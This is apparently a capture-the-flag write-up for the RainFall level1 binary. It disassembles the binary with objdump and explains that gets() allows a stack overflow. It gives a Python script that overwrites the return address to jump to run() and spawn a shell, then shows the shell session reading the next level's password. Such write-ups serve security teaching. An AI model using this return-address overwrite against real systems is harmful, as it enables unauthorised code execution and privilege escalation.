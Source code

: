 # level2

Using objdump, we can see that there are two functions in the executable: `main()`
and `run()`.

```sh
level1@RainFall:~$ objdump -M intel --disassemble ./level1 | egrep '<([^_@]*)>:' -A 5
08048444 <run>:
 8048444:       55                      push   ebp
 8048445:       89 e5                   mov    ebp,esp
 8048447:       83 ec 18                sub    esp,0x18
 804844a:       a1 c0 97 04 08          mov    eax,ds:0x80497c0
 804844f:       89 c2                   mov    edx,eax
--
08048480 <main>:
 8048480:       55                      push   ebp
 8048481:       89 e5                   mov    ebp,esp
 8048483:       83 e4 f0                and    esp,0xfffffff0
 8048486:       83 ec 50                sub    esp,0x50
 8048489:       8d 44 24 10             lea    eax,[esp+0x10]
```

By disassembling the main function we can see that it only calls `gets()`

```sh
level1@RainFall:~$ objdump -M intel --disassemble ./level1 | egrep '<main>:' -A 9
08048480 <main>:
 8048480:       55                      push   ebp
 8048481:       89 e5                   mov    ebp,esp
 8048483:       83 e4 f0                and    esp,0xfffffff0
 8048486:       83 ec 50                sub    esp,0x50
 8048489:       8d 44 24 10             lea    eax,[esp+0x10]
 804848d:       89 04 24                mov    DWORD PTR [esp],eax
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave  
 8048496:       c3                      ret
```

`gets` is a very dangerous function to use as it does not check for the size of 
the imputted string which enables anyone to segfaul the program by overflowing the buffer.

```
$ man gets | egrep '^BUGS' -A 3
BUGS
       Never  use  gets().   Because it is impossible to tell without knowing the data in advance how many characters gets()
       will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous
       to use.  It has been used to break computer security.  Use fgets() instead.
```

When the address wants to return, it jumps to a previously saved address that is just after the function call. This address is written on the stack. By overflowing the buffer of gets we can re-write the address of return to cause it to return to another function rather than the one it was suposed to return to. In our case we want to jump back to the `run` function.

When we set a breakpoint to the `run` function in gdb, we see that its address is `0x804844a`

```gdb
(gdb) b run
Breakpoint 2 at 0x804844a
```

Now that we have this information, we can start overflowing.

By trial and error, we see that it starts to segfault at 76 characters put into the buffer. so we can write a script that will send 76 characters of padding and then the payload, the address of the `run` function. The address needs to be in reverse as the system is little-endian.

```python
import sys
import os

offset = '*' * 76

# address of run() -> 0x0804844a
run = '\x08\x04\x84\x4a'[::-1]

payload = run

sys.stdout.write(offset + payload)
```

```sh
level1@RainFall:~$ python level1.py | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
```

Now the program goes into the `run` function because it writes `Good... Wait what?` as we wanted. The problem here is that we need to have an interractive session to be able to use the shell. We just need to add a few line to our script.

```python
import sys
import os

offset = '*' * 76

# address of run() -> 0x0804844a
run = '\x08\x04\x84\x4a'[::-1]

payload = run

sys.stdout.write(offset + payload)
sys.stdout.flush()

os.system('cat')
```

Now it should do the trick:

```sh
level1@RainFall:~$ python level1.py | ./level1 

Good... Wait what?
pwd
/home/user/level1
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^CSegmentation fault (core dumped)
```

## .pass: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77